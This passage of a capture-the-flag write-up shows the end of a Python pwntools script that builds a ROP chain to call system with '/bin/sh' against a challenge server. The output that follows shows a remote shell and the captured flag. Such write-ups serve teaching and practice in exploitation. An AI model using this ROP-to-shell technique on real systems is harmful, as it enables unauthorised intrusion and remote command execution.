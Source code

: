 ```
    # 0x080486a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret    
    exploit += p32(0x080486a8) # pop 4 times 
    exploit += p32(0x0804a040) # addr of our global buffer
    exploit += p32(0x40) # size
    exploit += p32(0) # stdin
    exploit += p32(0) # garbage value
    # System function
    exploit += p32(0x080485b4)
    exploit += b"AAAA" + p32(0x0804a040)
    exploit += b"\n"
    print("[+] Sending our exploit")
    p.send(exploit)
    p.send(b"/bin/sh\x00\n")
    print("[+] Final output")
    # Note that if your program never ends, you will never see any output
    #print(p.recvuntil(b"\n"))
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

This was successful as can be seen in the following output:
```
$ python3 pppr.py
[+] Opening connection to pppr.sstf.site on port 1337: Done
[+] Sending our exploit
[+] Final output
[*] Switching to interactive mode
$ cat flag
cat: flag: No such file or directory
$ ls
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
Alarm clock
$ cat flag.txt
SCTF{Anc13nt_x86_R0P_5kiLl}
$ 
```
